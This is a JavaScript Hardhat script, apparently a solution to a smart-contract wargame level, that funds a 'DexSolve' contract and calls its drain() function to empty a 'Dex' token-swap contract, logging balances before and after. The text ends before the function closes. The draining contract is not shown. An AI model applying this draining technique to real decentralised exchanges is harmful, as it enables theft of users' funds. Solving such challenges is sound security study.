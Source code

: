 #### dex-solve2.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function getDexState(dex) {
    token1Balance = await token1.balanceOf(dex.address)
    token2Balance = await token2.balanceOf(dex.address)
    console.log("========   DEX   ========")
    console.log("Token1 balance: " + token1Balance)
    console.log("Token2 balance: " + token2Balance)
    console.log("Token1->Token2: " + (token1Balance.eq(0) ? "N/A" : await dex.getSwapPrice(token1.address, token2.address, 1000) / 1000))
    console.log("Token2->Token1: " + (token2Balance.eq(0) ? "N/A" : await dex.getSwapPrice(token2.address, token1.address, 1000) / 1000))
}

async function getAccountAssets(account) {
    console.log("======== Account ========")
    console.log("Token1 balance: " + await token1.balanceOf(account.address))
    console.log("Token2 balance: " + await token2.balanceOf(account.address))
}

async function getState(account, dex) {
    // print state
    await getAccountAssets(account)
    await getDexState(dex)
    console.log("")
}

async function main() {
    dexAddress = "0x226D9Ec0E899905bcd5c7914B0D21BB24a9CeEb6";
    contract = await ethers.getContractAt("Dex", dexAddress);

    token1Address = await contract.token1()
    token1 = await ethers.getContractAt("SwappableToken", token1Address);

    token2Address = await contract.token2()
    token2 = await ethers.getContractAt("SwappableToken", token2Address);

    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    DexSolve = await ethers.getContractFactory("DexSolve");
    dexSolve = await DexSolve.deploy();
    await dexSolve.deployed();

    tx = await token1.connect(account).transfer(dexSolve.address, await token1.balanceOf(account.address))
    receipt = await tx.wait()
    tx = await token2.connect(account).transfer(dexSolve.address, await token2.balanceOf(account.address))
    receipt = await tx.wait()


    console.log("Level address     : " + contract.address)
    console.log("")
    await getState(dexSolve, contract)

    tx = await dexSolve.drain(contract.address)
    receipt = await tx.wait()

    await getState(dexSolve, contract)
```